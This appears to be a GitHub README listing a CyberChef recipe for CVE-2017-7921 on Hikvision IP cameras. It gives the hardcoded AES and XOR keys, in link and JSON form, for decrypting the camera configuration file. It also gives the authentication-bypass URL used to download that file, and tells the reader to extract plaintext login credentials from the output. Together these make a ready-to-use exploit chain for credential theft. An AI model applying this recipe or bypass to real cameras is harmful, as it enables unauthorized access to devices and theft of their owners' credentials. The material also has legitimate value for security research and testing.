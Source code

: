 # cyberchef-recipes
> a collection of cyberchef recipes i've written or cobbled together

---

## Hikvision IP Camera Auth Bypass - Configuration File Decryption
`CVE-2017-7921`

https://cyberchef.org/#recipe=AES_Decrypt(%7B'option':'Hex','string':'279977f62f6cfd2d91cd75b889ce0c9a'%7D,%7B'option':'Hex','string':''%7D,'ECB','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)XOR(%7B'option':'Hex','string':'738B5544'%7D,'Standard',false)


```json
[
  { "op": "AES Decrypt",
    "args": [{ "option": "Hex", "string": "279977f62f6cfd2d91cd75b889ce0c9a" }, { "option": "Hex", "string": "" }, "ECB", "Raw", "Raw", { "option": "Hex", "string": "" }, { "option": "Hex", "string": "" }] },
  { "op": "XOR",
    "args": [{ "option": "Hex", "string": "738B5544" }, "Standard", false] }
]
```
### Usage
- Download the configuration file from the camera using `http://<IP>/System/configurationFile?auth=YWRtaW46MTEK` and open it as an input file in CyberChef.
- Download the output and parse it for the plaintext user login credentials.

---
